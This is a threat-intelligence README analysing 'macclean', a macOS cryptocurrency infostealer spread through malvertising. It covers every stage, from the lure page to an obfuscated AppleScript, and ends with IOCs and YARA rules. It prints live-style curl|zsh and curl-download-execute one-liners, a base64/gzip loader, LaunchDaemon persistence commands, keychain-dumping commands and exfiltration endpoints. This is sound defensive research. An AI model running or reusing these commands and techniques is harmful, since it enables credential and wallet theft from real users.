

Update: I've managed to capture the trojanized app bundles. Will update once analysis is complete. 

# macclean, a macOS infostealer

Cryptocurrency focused macOS infostealer distributed through Google Ads malvertising. Five stages from a crafted lure page to a 115KB obfuscated AppleScript that exfiltrates browser data, cryptocurrency wallets, credentials, and personal files. Also replaces Ledger Live, Trezor Suite, and Exodus with trojanized copies and installs a LaunchDaemon for persistence.

## Hashes

```
ee86fce7eed2adfd7a2eb468bd33a390b1bf5492a67c755cf7ed05e8ceb75110  helper (Mach-O universal x86_64+arm64)
```

[VirusTotal](https://www.virustotal.com/gui/file/ee86fce7eed2adfd7a2eb468bd33a390b1bf5492a67c755cf7ed05e8ceb75110/detection)

## Execution Flow

Victim searches Google for "macos system data" and clicks a sponsored result pointing to `macclean[.]craft[.]me`, a Craft page styled as a macOS storage cleanup guide. The page tells them to paste a curl command into Terminal. That command fetches a zsh script from `ptrei[.]com` which contains a gzip+base64 payload. The payload decodes to a second script that downloads a Mach-O binary to `/tmp/helper`, strips quarantine with `xattr -c`, and runs it.

The binary is a 17MB universal Mach-O. 7.5MB of it is an encrypted blob sitting in `__DATA,__const`. It has 14 imports, all process and pipe related. No network or filesystem calls. Everything runs from a module initializer before `main()` returns 0.

The initializer runs a state machine with 11 states and XOR computed transitions. It decrypts the final payload through four layers (custom record encoding, XOR, hex decode, custom base64 with an alphabet derived at runtime), then delivers it to the shell via `fork` + `pipe` + `dup2`. There are three redundant execution paths: two pipe to `/bin/sh`, one to `/bin/bash`. All three deliver the same thing: an `osascript` command carrying a 115KB obfuscated AppleScript. Whichever pipe succeeds first wins. All buffers are zeroed after use. Nothing hits disk.

The AppleScript pops a fake auth dialog that loops until the user enters a valid password, then steals browser data, wallets, and files. It exfils over HTTPS, replaces three wallet apps with trojanized copies, and drops a LaunchDaemon for persistence.

## Stage 0: Lure Page

Sponsored Google result for "macos system data" points to `macclean[.]craft[.]me`, a Craft[.]me page posing as a macOS storage cleanup guide. The page instructs the user to paste a curl command into Terminal.

```bash
curl -SLskf $(echo 'aHR0cHM6Ly9wdHJlaS5jb20vY3VybC82NzExMjg2Y2I5YjBlMDE1ZjRlMTc3OTk2Zjg5NDM4ODcxYmIzY2FmMjZiOGYyNThjZDQ0N2U3ZGVjNzY4ZGU0'|base64 -D)|zsh
```

The base64 decodes to:

```
hxxps://ptrei[.]com/curl/6711286cb9b0e015f4e177996f89438871bb3caf26b8f258cd447e7dec768de4
```

## Stage 1: Loader Script

The URL returns a zsh script with an embedded gzip+base64 payload:

```bash
#!/bin/zsh
ooompg=$(base64 -D <<'PAYLOAD_END' | gunzip
H4sIAJkZr2kC/13LPQqAMAxA4d1TRAQX0Qxu3qbGQAv9CTGF4ul1VMf3wRt63EPG6
/QdVY0wF0BLgp6jsII3k3NDFFMOC5WEFNll1hWrHM4YxhGaM1OY6XM+Tj6VA6b291d2
N1CRxDGAAAAA
PAYLOAD_END
)
eval "$ooompg"
```

## Stage 2: Binary Download

The decoded payload downloads the Mach-O binary, strips quarantine, and executes:

```bash
#!/bin/zsh
curl -o /tmp/helper hxxps://ptrei[.]com/cleaner3/update \
  && xattr -c /tmp/helper \
  && chmod +x /tmp/helper \
  && /tmp/helper
```

## Stage 3: Mach-O Loader

Universal binary (x86_64 + arm64). 17,075,480 bytes. 7.5MB encrypted blob in `__DATA,__const`. Only 14 imports:

```
_fork       _pipe       _dup2       _close      _write
_execl      _execvp     _waitpid    _usleep     _bzero
_memcpy     _memmove
```

Plus C++ string operations from libc++. No network or filesystem imports.

### Module Initializer

All logic runs from `mod_init_func_0` before `main()`. `main` returns 0.

### State Machine

11 states with XOR computed transitions. Initial XOR key: `0x7A9`.

```
State 0:  Build the custom b64 alphabet from encrypted records
State 1:  Decrypt first script, pipe to /bin/sh
State 2:  XOR decrypt part 1 (key byte 0xA9)
State 3:  XOR decrypt part 2 (0x9C, derived as key - 0x0D)
State 4:  XOR decrypt part 3 (0x8F, derived as key - 0x1A)
State 5:  Concat all parts, hex decode, b64 decode, pipe to /bin/sh
State 6:  Decrypt third payload, pipe to /bin/sh
State 7:  One more XOR pass, then pipe to /bin/bash
State 8:  Exit
State 9:  Cleanup
State 10: Cleanup
```

State transitions are computed as `new_state = var_80 ^ constant` where the constant differs per state. State 1 derives the next XOR key from the exit code of the /bin/sh child process: `var_80 = (exit_code >> 8) * 0xD16 + 0x7A9`.

Dynamic analysis confirmed all three pipe paths (states 1, 5/6, 7) deliver the same payload: `osascript -e '<stealer>'`. The three paths are redundant.

### Decompiled: mod_init_func_0 (state machine core)

Abridged, showing the state dispatch and XOR decryption loop (x86_64, from Binary Ninja):

```c
uint32_t var_80 = 0x7a9;  // XOR key, stays live across states
int32_t state = 0;

do {
    _usleep(0x395);   // ~900 microseconds, probably antisandbox timing

    switch (state) {
    case 0:
        // builds the custom b64 alphabet from encrypted records
        sub_1000012a0(&var_78);
        sub_100000e00(&var_60, &var_78);
        state = var_80 ^ 0x7a8;      // -> 1
        break;

    case 1:
        // first attempt: decrypt script and shove it into /bin/sh
        sub_100001710(&var_e0);
        sub_100000e00(&var_b0, &var_e0);
        sub_100000a90(&var_60, &var_c8);
        sub_100000c00(&var_78, &var_b0, &var_60);
        uint32_t r = sub_100000870(&var_198);  // runs the pipe
        // next key derived from sh's exit code. cute.
        var_80 = (r >> 8) * 0xd16 + 0x7a9;
        state = var_80 ^ 0x7ab;
        break;

    case 2:
        // XOR pass 1, key byte is 0xA9
        sub_100018cb0(&var_78);
        sub_100000e00(&var_60, &var_78);
        for (int i = 0; i < length; i++)
            buf[i] ^= var_80 & 0xff;
        state = var_80 ^ 0x7aa;
        break;

    case 3:
        // XOR pass 2, shifts key down by 0x0D -> 0x9C
        for (int i = 0; i < length; i++)
            buf[i] ^= (var_80 & 0xff) - 0x0d;
        state = var_80 ^ 0x7ad;
        break;

    case 4:
        // pass 3, another shift -> 0x8F
        for (int i = 0; i < length; i++)
            buf[i] ^= (var_80 & 0xff) - 0x1a;
        state = var_80 ^ 0x7ac;
        break;

    case 7:
        // last resort: one more XOR pass then bash gets it
        for (int i = 0; i < length; i++)
            buf[i] ^= key_byte;
        sub_100000870(&var_178);  // tries sh first (again)
        // then forks bash as a fallback
        pipe(fds);
        pid = fork();
        if (pid == 0) {
            close(fds[1]);
            dup2(fds[0], 0);
            close(fds[0]);
            execvp("/bin/bash", ["/bin/bash", "-s", NULL]);
            _exit(127);
        }
        close(fds[0]);
        // feeds payload in variable size chunks
        while (remaining > 0) {
            chunk = min(remaining, (offset % 192) + 64);
            write(fds[1], buf + offset, chunk);
            usleep(1);
        }
        close(fds[1]);
        waitpid(pid, &status, 0);
        state = 8;  // done
        break;

    case 8:
        break;  // we're out
    }
} while (state != 8);
```

### Decompiled: sub_100000870 (pipe runner)

The /bin/sh pipe runner. Takes a std::string pointer, forks, redirects child stdin to pipe, writes the decrypted script:

```c
int32_t sub_100000870(std::string* script) {
    int fds[2];
    if (pipe(fds) != 0) return -1;

    char* shell = "/bin/sh";
    char* argv[] = { "/bin/sh", "-s", NULL };

    pid_t pid = fork();
    if (pid == 0) {
        // child gets pipe on stdin
        close(fds[1]);
        dup2(fds[0], 0);
        close(fds[0]);
        execvp(shell, argv);
        _exit(127);
    }

    close(fds[0]);
    char* buf = script->data();
    size_t remaining = script->size();

    // variable chunk sizes, maybe trying to look less like a bulk write
    while (remaining > 0) {
        size_t chunk = min(remaining, ((remaining / 192) & ~63) + 64);
        ssize_t written = write(fds[1], buf, chunk);
        if (written <= 0) break;
        usleep(1);  // tiny yield between writes
        buf += written;
        remaining -= written;
    }

    close(fds[1]);
    bzero(script->data(), script->size());  // wipe it

    int status;
    waitpid(pid, &status, 0);
    return status;  // caller uses this to derive next XOR key
}
```

### Four Layer Decryption

```
Layer 1: Custom record encoding
  12-byte records {val0, key, shift}
  output = (((key * 3) XOR val0) >> shift) & 0xFF - key & 0xFF

Layer 2: XOR decryption
  Per-state key byte derived from var_80
  State 2: key & 0xFF (0xA9)
  State 3: (key & 0xFF) - 0x0D (0x9C)
  State 4: (key & 0xFF) - 0x1A (0x8F)

Layer 3: Hex decoding
  Intermediate output treated as ASCII hex pairs

Layer 4: Custom base64
  128-character alphabet decoded at runtime in state 0
  Alphabet derived from encrypted records in __const
```

All buffers are `bzero`'d after each decryption pass.

## Stage 4: AppleScript Stealer

115,353 bytes. Single line with `\012` separators. All strings encoded as integer arrays decoded at runtime by three arithmetic functions. Every variable and function name is randomized. Full source in [`malware/stealer.applescript`](malware/stealer.applescript).

### String Decoders

```applescript
on akcssdpybutq(a, b)
    -- chr(a[i] - b[i])
end

on riapfzqnje(a, b)
    -- same idea but addition
end

on dqlvjacuikk(a, b, c)
    -- third variant, subtracts both b[i] and a constant c
end
```

28 unique handler names observed, all randomized 8-12 character lowercase strings.

### Credential Harvesting

Fake macOS auth dialog in an infinite loop with no cancel button:




Each attempt validated against `dscl . authonly <username> <password>`. Loops until correct. Password cached to `~/.pass`, reused for `sudo` throughout.

Chrome Safe Storage password extracted via:

```bash
security find-generic-password -ga "Chrome"
```

### Browser Targets

12 Chromium browsers:

```
Google Chrome, Brave, Microsoft Edge, Vivaldi, Opera, Opera GX,
Chrome Beta, Chrome Canary, Chrome Dev, Chromium, Arc, CocCoc
```

Per profile: `Cookies`, `Network/Cookies`, `Web Data`, `Login Data`, `History`, `Local Extension Settings`, `IndexedDB`, `Local Storage/leveldb`

Firefox and Waterfox: `cookies.sqlite`, `formhistory.sqlite`, `key4.db`, `logins.json`, `places.sqlite`, `prefs.js`

### Wallet Extension Targets

264 hardcoded Chrome extension IDs. 

Sample set:

```
nkbihfbeogaeaoehlefnkodbefgpgknn  MetaMask
bfnaelmomeimhlpmgjnjophhpkkoljpa  Phantom
ibnejdfjmmkpcnlpebklmnkoeoihofec  TronLink
hnfanknocfeofbddgcijnmhnfnkdnaad  Coinbase
dmkamcknogkgcdfhhbddcghachkejeap  Keplr
aflkmfhebedbjioipglgcbcmnbpgliof  Backpack
acmacodkjbdgmoleebolmdjonilkdbch  Rabby
mcohilncbfahbmgdjkbpemcciiolgcge  OKX
ppbibelpcjmhbdihakflkdcoccbgbkpo  UniSat
```

### Desktop Wallet Targets

```
Electrum          ~/.electrum/wallets/
Coinomi           ~/Library/Application Support/Coinomi/wallets/
Exodus            ~/Library/Application Support/Exodus/
Atomic            ~/Library/Application Support/atomic/Local Storage/leveldb/
Wasabi            ~/.walletwasabi/client/Wallets/
Ledger Live       ~/Library/Application Support/Ledger Live/
Monero            ~/Monero/wallets/
Bitcoin Core      ~/Library/Application Support/Bitcoin/wallets/
Litecoin Core     ~/Library/Application Support/Litecoin/wallets/
Dash Core         ~/Library/Application Support/DashCore/wallets/
Electrum LTC      ~/.electrum-ltc/wallets/
Electron Cash     ~/.electron-cash/wallets/
Guarda            ~/Library/Application Support/Guarda/
Dogecoin Core     ~/Library/Application Support/Dogecoin/wallets/
Trezor Suite      ~/Library/Application Support/@trezor/suite-desktop/
Sparrow           ~/.sparrow/wallets/
Binance           ~/Library/Application Support/Binance/app-store.json
Tonkeeper         ~/Library/Application Support/@tonkeeper/desktop/config.json
```

### Other Data Collected

```
macOS login keychain    ~/Library/Keychains/login.keychain-db
Apple Notes             SQLite + scripting bridge + media (up to 30MB)
Safari cookies          Container and user level paths
Telegram sessions       tdata/key_datas + maps/
OpenVPN profiles        ~/Library/Application Support/OpenVPN Connect/profiles/
Desktop/Documents       txt, pdf, docx, wallet, key, keys, kdbx, seed, rtf, jpg, png
System info             system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType
Installed apps          /Applications listing
```

### Exfiltration

Staged to `/tmp/<5 digit random>/`, compressed with:

```bash
ditto -c -k --sequesterRsrc /tmp/<staging_dir> /tmp/out.zip
```

Upload via POST:

```
Endpoint:  hxxps://laislivon[.]com/contact
Fallback:  hxxp://92[.]246[.]136[.]14/contact
Retries:   3
```

Files over 25MB split with `split -b 25M` and uploaded with chunking headers.

HTTP headers:

```
user:         <macOS username>
BuildID:      <redacted>
cl:           <redacted>
cn:           <campaign id>
X-Chunk-ID:   <8 random hex bytes from /dev/urandom>
X-Chunk-Part: <index>
X-Chunk-Total: <count>
```

### Trojanized App Replacement

```
kill "Ledger Live"    -> download hxxps://wusetail[.]com/zxc/app.zip    -> /Applications/Ledger Live.app
kill "Trezor Suite"   -> download hxxps://wusetail[.]com/zxc/apptwo.zip -> /Applications/@trezor-suite-desktop.app
kill "Exodus"         -> download hxxps://wusetail[.]com/zxc/appex.zip  -> /Applications/Exodus.app
```

For each: kill process, `sudo rm -r` the original, download zip, extract with `ditto -x -k`, `chmod -R +x`.

All three download URLs were returning 404 at the time of analysis. The trojanized app payloads were not recovered.

### Persistence

```bash
curl -o ~/.mainhelper hxxps://wusetail[.]com/zxc/kito
chmod +x ~/.mainhelper

# loop wrapper, just runs the backdoor every 60s
cat > ~/.agent << 'EOF'
#!/bin/bash
while true; do
    ~/.mainhelper
    sleep 60
done
EOF

# shoves it into a LaunchDaemon as root
sudo cp /tmp/starter /Library/LaunchDaemons/com.finder.helper.plist
sudo chown root:wheel /Library/LaunchDaemons/com.finder.helper.plist
sudo launchctl load /Library/LaunchDaemons/com.finder.helper.plist
```

LaunchDaemon label: `com.finder.helper`

## IOCs

### Network

| Indicator | Role |
|-----------|------|
| `macclean[.]craft[.]me` | Lure page |
| `ptrei[.]com` | Payload hosting |
| `laislivon[.]com` | Primary C2 (exfiltration) |
| `wusetail[.]com` | Secondary C2 (trojanized apps) |
| `92[.]246[.]136[.]14` | Fallback C2 |

### URLs

```
hxxps://ptrei[.]com/curl/6711286cb9b0e015f4e177996f89438871bb3caf26b8f258cd447e7dec768de4
hxxps://ptrei[.]com/cleaner3/update
hxxps://laislivon[.]com/contact
hxxps://wusetail[.]com/zxc/app.zip
hxxps://wusetail[.]com/zxc/apptwo.zip
hxxps://wusetail[.]com/zxc/appex.zip
hxxps://wusetail[.]com/zxc/kito
```

### Host Artifacts

```
/tmp/helper                                        Dropped binary
~/.username                                        Marker file
~/.pass                                            Stolen password
~/.agent                                           Persistence loop script
~/.mainhelper                                      Backdoor binary
/tmp/out.zip                                       Exfil archive
/tmp/chunk_*                                       Split upload chunks
/Library/LaunchDaemons/com.finder.helper.plist     Persistence
```

## YARA

```yara
rule macos_cleaner_loader
{
    meta:
        author      = "initz3r0"
        description = "macOS Cleaner Mach-O loader with encrypted __const blob"
        hash        = "ee86fce7eed2adfd7a2eb468bd33a390b1bf5492a67c755cf7ed05e8ceb75110"

    strings:
        $s1 = "/usr/lib/libSystem.B.dylib" ascii
        $s2 = "/usr/lib/libc++.1.dylib" ascii
        $s3 = "_fork" ascii
        $s4 = "_pipe" ascii
        $s5 = "_dup2" ascii
        $s6 = "_execl" ascii
        $s7 = "_execvp" ascii
        $s8 = "XaytTPo89ojwdoxuaSrogGuX13Exo7qrcRoR6U8gPvrY3YAq" ascii

    condition:
        (uint32(0) == 0xFEEDFACF or uint32(0) == 0xBEBAFECA) and
        all of them and
        filesize > 5MB
}

rule macos_cleaner_stealer_applescript
{
    meta:
        author      = "initz3r0"
        description = "macOS Cleaner obfuscated AppleScript stealer"

    strings:
        $s1 = "pvqchvusydge"
        $s2 = "akcssdpybutq"
        $s3 = "riapfzqnje"
        $s4 = "dqlvjacuikk"
        $s5 = "ibvwubjmcagh"
        $s6 = "dxtephqkngbz"
        $s7 = "rdovbwllmnmo"
        $s8 = "yynhqmzolvbl"

    condition:
        ($s1 and 2 of ($s2, $s3, $s4)) or
        (4 of ($s5, $s6, $s7, $s8))
}

rule macos_cleaner_stealer_generic
{
    meta:
        author      = "initz3r0"
        description = "AppleScript stealer with fake auth dialog and credential harvesting"

    strings:
        $s1 = "display dialog" ascii
        $s2 = "hidden answer" ascii
        $s3 = "dscl . authonly" ascii
        $s4 = "find-generic-password" ascii
        $s5 = "-ga \"Chrome\"" ascii
        $s6 = "login.keychain-db" ascii
        $s7 = "ditto -c -k" ascii
        $s8 = "X-Chunk-ID" ascii

    condition:
        ($s1 and $s2 and $s3) or
        ($s4 and $s5 and $s6 and $s7) or
        ($s8 and $s3) or
        (5 of them)
}
```

See [`detection/`](detection/) for YARA rules and detection script. See [`malware/`](malware/) for defanged stage scripts and the full AppleScript stealer.
